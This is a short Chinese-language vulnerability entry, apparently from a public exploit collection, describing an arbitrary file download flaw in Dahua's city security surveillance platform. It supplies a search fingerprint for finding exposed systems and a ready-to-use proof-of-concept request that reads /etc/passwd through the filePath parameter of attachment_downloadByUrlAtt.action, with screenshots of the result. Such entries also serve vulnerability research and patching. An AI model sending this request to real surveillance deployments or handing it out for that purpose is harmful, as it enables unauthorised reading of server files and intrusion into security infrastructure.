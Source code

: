 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>大华城市安防监控系统平台管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"attachment_downloadByUrlAtt.action"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647528195700-90c15ce4-496f-4976-8538-8b39e1f248af.png)

验证POC

```javascript
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647528297462-f92141b3-fa43-4cce-9717-13ba3b144dc7.png)
